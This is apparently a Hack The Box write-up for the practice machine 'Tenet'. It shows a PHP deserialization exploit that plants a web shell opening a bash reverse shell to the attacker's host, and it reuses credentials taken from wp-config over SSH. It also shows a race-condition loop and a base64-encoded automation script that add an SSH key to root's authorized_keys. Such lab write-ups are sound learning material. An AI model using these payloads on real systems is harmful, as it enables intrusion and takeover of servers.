

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></img></a>
</p>

# Scanning

## Rustscan/nmap

`rustscan -a 10.10.10.223 -r 1-65535 -- -A -sC -sV -oN - > tenet.nmap`

```bash
❯ cat tenet.nmap
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.223:22
Open 10.10.10.223:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] # Nmap 7.80 scan initiated Sun Jan 17 07:22:47 2021 as: nmap -vvv -p 22,80 -A -sC -sV -oN - 10.10.10.223
Nmap scan report for 10.10.10.223
Host is up, received conn-refused (0.55s latency).
Scanned at 2021-01-17 07:22:47 UTC for 43s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA4SymrtoAxhSnm6gIUPFcp1VhjoVue64X4LIvoYolM5BQPblUj2aezdd9aRI227jVzfkOD4Kg3OW2yT5uxFljn7q/Mh5/muGvUNA+nNO6pCC0tZPoPEwMT+QvR3XyQXxbP6povh4GISBySLw/DFQoG3A2t80Giyq5Q7P+1LH1f/m63DyiNXOPS8fNBPz59BDEgC9jJ5Lu2DTu8ko1xE/85MLYyBKRSFHEkqagRXIYUwVQASHgo3OoJ+VAcBTJZH1TmXDc4c6W0hIPpQW5dyvj3tdjKjlIkw6dH2at9NL3gnTP5xnsoiOu0dyofm2L5fvBpzvOzUnQ2rps2wANTZwZ
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLMM1BQpjspHo9teJwTFZntx+nxj8D51/Nu0nI3atUpyPg/bXlNYi26boH8zYTrC6fWepgaG2GZigAqxN4yuwgo=
|   256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMQeNqzXOE6aVR3ulHIyB8EGf1ZaUSCNuou5+cgmNXvt
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Only 2 ports are aviable one is ssh and second is apache web_server.
* port 80 has default apache web page.

## Gobuster

`gobuster dir -u 10.10.10.223 -w ~/git-tools/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,txt -o tenet.out -t 100`

```bash
/users.txt            (Status: 200) [Size: 7]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.223/wordpress/]
```

* Running gobuster found wordpress and user.txt but user.txt file only shows `Success`

      ❯ curl 10.10.10.223/users.txt
      Success

* move on to wordpress, I ran wpscan on wordpress but there is nothing intresting in the wpsacn result and the wordpress version is `5.6` UP-TO-DATE.


# Foothold:php_object-injection

* after a while i found a comment `http://tenet.htb/index.php/2020/12/16/logs/#comment-2` 

      did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!

* comment is talking about some php file `sator.php` and its backup *normally file backups in linux stores with `.bak` extention.*
* after a while i found the file
  * *i do some crazy terminal tricks and create a one liner to generate a list of possible locations on the server*, but hey, i'm learnin so thats good for practice.

    `ffuf -u http://10.10.10.223/wordpress/FUZZ -w ~/git-tools/SecLists/Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt:FUZZ -s | rev | cut -d/ -f2- | rev | sort | uniq | sed 's/^/wordpress/; s/$/\/sator.php/' | sed '1 i\sator.php' > find_sator.txt && gobuster dir -u http://10.10.10.223/ -w find_sator.txt -x bak && rm find_sator.txt`


        ===============================================================
        Gobuster v3.1.0
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        [+] Url:                     http://10.10.10.223/
        [+] Method:                  GET
        [+] Threads:                 10
        [+] Wordlist:                find_sator.txt
        [+] Negative Status codes:   404
        [+] User Agent:              gobuster/3.1.0
        [+] Extensions:              bak
        [+] Timeout:                 10s
        ===============================================================
        2021/01/17 17:02:49 Starting gobuster in directory enumeration mode
        ===============================================================
        /sator.php            (Status: 200) [Size: 63]
        /sator.php.bak        (Status: 200) [Size: 514]

        ===============================================================
        2021/01/17 17:02:53 Finished
        ===============================================================

* ok, So i found the `sator.php` location and the backup file.
* curl http://10.10.10.223/sator.php and there is nothing -

      ❯ curl http://10.10.10.223/sator.php
      [+] Grabbing users from text file <br>
      [] Database updated <br>

* review backup file to understant what `sator.php` file doing in the background -

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
```

if we serialize `DatabaseExport` class as a new `DatabaseExport` object -

```php
<?php
class DatabaseExport
{
        public $user_file = 'poorduck.php';
        public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/<tun0-IP>/4141 0>&1\'"); ?>';

}
serialize(new DatabaseExport)

?>
```

`O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"hush.php";s:4:"data";s:33:"<?php exec("/bin/bash -c \'bash -i > /dev/tcp/<tun0-IP>/4141 0>&1\'"); ?>";}`


__unserialize data:__

```php
__PHP_Incomplete_Class Object
(
    [__PHP_Incomplete_Class_Name] => DatabaseExport
    [user_file] => hush.php
    [data] => <?php exec("/bin/bash -c \'bash -i > /dev/tcp/<tun0-IP>/4141 0>&1\'"); ?>
)
```

so when this unserialize data run in the script it creats new `DatabaseExport` object from that class and now the script run with two DatabaseExport objects and with the `user.txt` file our `shell.php` also created.

so on behalf of the DatabaseExport class two new `DatabaseExport` objects created -

__First:__
```php
$databaseupdate = unserialize($input); -> new DatabaseExport;
```

__Second:__

```php
$app = new DatabaseExport;
$app -> update_db();
```

where `$databaseupdate` contains

```php
class DatabaseExport
{
	public $user_file = 'shell.php';
	public $data = '<?php echo system($_GET["x"]); ?>';

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file ==> 'shell.php', $this->data ==> '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/<tun0-IP>/4141 0>&1\'"); ?>');
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

```

and `$app` contains

```php
class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file ==> 'users.txt', $this->data ==> '');
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}
```
and `update_db()` function is exec in this object because `$app` is calling it with `$app -> update_db();`

and `__destruct()` is the [magic method](https://www.php.net/manual/en/language.oop5.magic.php) and "The destructor method will be called as soon as there are no other references to a particular object."

__Reference:__

* ExploitDB documentation on [deserialization-vulnerability](https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf)
* ippsec Video on [PHP Deserialization](https://www.youtube.com/watch?v=HaW15aMzBUM&list=PLidcsTyj9JXJrgTzRYdwnUhUThb9bL9py&index=2)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md)
* [medium article](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)
* phpgcc tool [ambionics@github](https://github.com/ambionics/phpggc)

# User Exploit

and here is the final automate script for exploiting this vulnarability -

```php
<?php
class DatabaseExport
{
        public $user_file = 'poorduck.php';
    	public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/<tun0-IP>/4141 0>&1\'"); ?>';

}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
echo urldecode($url);
$upload = file_get_contents("$url");
$exec = file_get_contents("http://10.10.10.223/poorduck.php");

?>
```

* running the script gives us `www-data` user shell on natcat -

        ❯ nc -nvlp 4141
        listening on [any] 4141 ...
        connect to [10.10.15.114] from (UNKNOWN) [10.10.10.223] 28858
        id
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        www-data@tenet:/var/www/html$

* from the wordpress config file we get the database creds -

        www-data@tenet:/var/www/html$ ls
        ls
        hush.php    poorduck.php  sator.php.bak  users.txt
        index.html  sator.php     shell.php      wordpress
        www-data@tenet:/var/www/html$ cat -n wordpress/wp-config.php | sed -n '21,38p'
        <l/wordpress$ cat -n wp-config.php | sed -n '21,38p'
        21  // ** MySQL settings - You can get this info from your web host ** //
        22  /** The name of the database for WordPress */
        23  define( 'DB_NAME', 'wordpress' );
        24
        25  /** MySQL database username */
        26  define( 'DB_USER', 'neil' );
        27
        28  /** MySQL database password */
        29  define( 'DB_PASSWORD', 'Opera2112' );
        30
        31  /** MySQL hostname */
        32  define( 'DB_HOST', 'localhost' );
        33
        34  /** Database Charset to use in creating database tables. */
        35  define( 'DB_CHARSET', 'utf8mb4' );
        36
        37  /** The Database Collate type. Don't change this if in doubt. */
        38  define( 'DB_COLLATE', '' );


* i tried login to sql database but there is nothing only found 2 password hashes but they looks like not cracable -

    `mysql -u neil -pOpera2112`

      mysql> show databases;
      +--------------------+
      | Database           |
      +--------------------+
      | information_schema |
      | mysql              |
      | performance_schema |
      | sys                |
      | wordpress          |
      +--------------------+
      5 rows in set (0.01 sec)

      mysql> use wordpress
      Reading table information for completion of table and column names
      You can turn off this feature to get a quicker startup with -A

      Database changed
      mysql> show tables;
      +-----------------------+
      | Tables_in_wordpress   |
      +-----------------------+
      | ... [snip] ...        |
      | wp_users              |
      +-----------------------+
      12 rows in set (0.00 sec)

      mysql> SELECT * FROM wp_users;
      +----+-------------+------------------------------------+---------------+-----------------------+------------------------------+---------------------+---------------------+-------------+--------------+
      | ID | user_login  | user_pass                          | user_nicename | user_email            | user_url                     | user_registered     | user_activation_key | user_status | display_name |
      +----+-------------+------------------------------------+---------------+-----------------------+------------------------------+---------------------+---------------------+-------------+--------------+
      |  1 | protagonist | $P$BqNNfN07OWdaEfHmGwufBs.b.BebvZ. | protagonist   | protagonist@tenet.htb | http://10.10.10.44/wordpress | 2020-12-16 12:17:10 |                     |           0 | protagonist  |
      |  2 | neil        | $P$BtFC5SOvjEMFWLE4zq5DWXy7sJPUqM. | neil          | neil@tenet.htb        | http://tenet.htb             | 2020-12-16 14:51:26 |                     |           0 | neil neil    |
      +----+-------------+------------------------------------+---------------+-----------------------+------------------------------+---------------------+---------------------+-------------+--------------+
      2 rows in set (0.00 sec)

* then i try to use database creds to reuse in ssh login and it worked and get the neil user shell -

      ❯ ssh neil@10.129.34.42
      neil@10.129.34.42's password: Opera2112
      Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

      neil@tenet:~$ id
      uid=1001(neil) gid=1001(neil) groups=1001(neil)
      neil@tenet:~$ cat user.txt
      6599558b************************

# Root escalation

* check the user's sudo rights - 

neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh

* user can run `/usr/local/bin/enableSSH.sh` file with sudo without password.
* viewing the file -

      neil@tenet:~$ ls -l /usr/local/bin/enableSSH.sh
      -rwxr-xr-x 1 root root 1080 Dec  8 13:46 /usr/local/bin/enableSSH.sh

__Understanding the script code:__

```bash
#!/bin/bash

checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}

checkFile() {
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)         //create temperary file named ssh-<8_rendom_chars> like ssh-Yt45Pc8s,
        (umask 110; touch $tmpName)                    //mask file permission to read and write,
        /bin/echo $key >>$tmpName                      //append $key variable value in the $tmpName file,
        checkFile $tmpName                             //call the checkFile() function to verify that the file is created and $key is added,
        /bin/cat $tmpName >>/root/.ssh/authorized_keys //now cat out the $tmpName file and append it to root ssh authorized_keys,
        /bin/rm $tmpName                               //and remove $tmpName file form tmp directory.
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded        //This function execute after key added to authorized_keys to verify `/root/.ssh/authorized_keys` for $key.
```

[what-is-umask-and-how-does-it-work](https://askubuntu.com/questions/44542/what-is-umask-and-how-does-it-work)

* ok, So everything is happning in the `addkey()` function. when `$tmpName` is created this script append his `$key` in that file and than add it into the root ssh authorized_keys.

__Attack Surface:__

* the script first create tmp file and than add his key inside that file and if we add our key to that tmp file at same time when this script add his key our key also added to root ssh authorized_keys.
* but script done all this work in less then a second and there is no way we can manually add our key to that tmp file for this we can create a loop which execute the script and echoing our ssh key at same time for N number of time -

      while true; do sudo /usr/local/bin/enableSSH.sh & echo "<public-ssh-key>" | tee /tmp/ssh-* 1>&2 & done

  * i tried it multiple time and in 100 loop i get the sccusses

__Getting Root shell:__

* create ssh key and add public key into the loop.
* running the loop -

      while true; do sudo /usr/local/bin/enableSSH.sh & echo "<public-ssh-key>" | tee /tmp/ssh-* 1>&2 & done

* use your private ssh key pair to login as root in the box -

    `ssh -i private_key root@10.10.10.223`

      ❯ ssh -i tenet root@10.129.34.42
      Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

      root@tenet:~# id 
      uid=0(root) gid=0(root) groups=0(root)
      root@tenet:~# cat root.txt
      1bec96c5************************
      root@tenet:~# 

__Exploit Script__

```bash
#!/bin/bash

sshpass -p Opera2112 ssh -l neil 10.10.10.223 "rm /tmp/ssh*; base64 -d <<< 'Zm9yIGkgaW4gJChzZXEgMTAwMCk7IGRvCiAgICBzdWRvIC91c3IvbG9jYWwvYmluL2VuYWJsZVNTSC5zaCAmCiAgICBlY2hvICJzc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUJnUURmVWVRTDlFVm1JbjdBWTdJUlpuNzIydFdteUplRWFlRlNZa1BtUnB6U2Q4VzNTODlTZFllYVFQU1gwaUZaVjhLSE8vNUJ5Ly9OcVRCQzlNdHF6TnFLVnZNNE12YWl1ZnZLU3gxRUVITTdDQzM2bDdxYkJlYm5aL2JDTFJZVHFzZTdRSDYxVVlMN1lKWFJGYkJ3OG4rQkI0SWJHRjJxcEkxNmpSQk5kK0VMaEFUU3MyYTBRSVJhbzlURm96d0xnRDlRaFlwVzJ5dVdrR2k2alZQR3hCTk9RUi8xbTJHRFJjVTA5VTRka1VBSTk5UGVkS3pGa29KOFpWVVEyTW5hbW1qR000bDlaeWdVZDFhS1lpdFRNY2lpTy9tNUswYWl3bzRTNFlpbGtPQVE5Y0s4aXU3QlFyVjJDYThqcDlJVUZIdG5lM2lJRFpIVUtSRUNRbHd3TGRVRmZwNHBPcXRLbWpBTkRjWlJ2Wjk2dGtDT2tjSXBIaWpWcEV4YkVGdjlSUmY0MUtVUVhKZ1U2dlU0VytldERyTDBhZGJnQlN6MU16eFEvOVl0OXJudzVaOFJVbjNiS214ek5iNDhmQWdsWjdxY0JyeW0zMFFXNUNYMC9HSm1idGtnVHd0S3FldGhNMHdyMHI0cGg2RWh6SkFIVUFpM1VKK0w0eitSSGc2Z09Taz0iIHwgdGVlIC90bXAvc3NoLSogMT4mMiAmCmRvbmU=' | bash > /dev/null 2>&1" &


while true
do
	rspn=$(ssh -o PasswordAuthentication=no -i ./root_key root@10.10.10.223 'id' 2>/dev/null)
	if [ -z "$rspn" ]
	then
		continue
	else
		echo "$rspn"
		break
	fi
done

#ssh -i ./root_key root@10.10.10.223 'hostname'
ssh -i ./root_key root@10.10.10.223 'flag=$(find / -type f \( -name "user.txt" -o -name "root.txt" \) -print 2>/dev/null) && cat $flag'
```

## inotify

__[inotify](https://man7.org/linux/man-pages/man7/inotify.7.html)__ API provides a mechanism for monitoring filesystem events. Inotify can be used to monitor individual files, or to monitor directories. When a directory is monitored, inotify will return events for the directory itself, and for files inside the directory.

* [inotify api example in c](https://linuxhint.com/inotify_api_c_language/)
* ippsec explain in [tenet video](https://www.youtube.com/watch?v=LhdE7dXbTQw&t=1560s)

Compile C code
```bash
gcc inotify.c -o inofifythis
```

